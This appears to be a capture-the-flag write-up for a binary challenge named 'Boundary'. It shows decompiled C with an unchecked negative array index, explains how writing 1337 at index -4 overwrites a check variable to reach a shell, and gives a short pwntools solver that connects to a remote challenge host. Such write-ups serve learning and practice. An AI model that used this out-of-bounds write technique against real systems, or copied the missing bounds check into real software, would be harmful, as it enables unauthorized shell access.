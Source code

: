 # Boundary
![challenge](../images/boundary.png)

## Source Code
```c
void win(void)

{
  if (check == 0x539) {
    system("/bin/sh");
    return;
  }
  puts("Who the f are you");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```
```c
undefined8 main(void)

{
  int var1;
  int var2;
  
  setup();
  puts("I am going to give you one chance to get victory");
  __isoc99_scanf("%d %d",&var2,&var1);
  if (var2 < 5) {
    *(int *)(info + (long)var2 * 4) = *(int *)(info + (long)var2 * 4) + var1;
  }
  win();
  return 0;
}
```
## Overview
In this challenge we got 2 variable stored in the Stack ```info = 0x4040a0``` and ```check = 0x404090``` where the difference is 0x10. So in order to solve it we need to point to ```check``` and assign to it ```0x539```(1337 in integer) to get a Shell. But how we do that ? 
Thanks to this expression ```*(int *)(info + (long)var2 * 4) = *(int *)(info + (long)var2 * 4) + var1;``` if ```var2 == -4``` and ```var1 == 1337``` it will be like ```*(int *)(0x404090) = 0 + 1337``` as simple as that !

## Solver
```py
#!/usr/bin/env python3
from pwn import *

p = remote("20.216.40.184", 10013)

p.sendline(b'-4')
p.sendline(b'1337')
p.interactive()
p.close()
```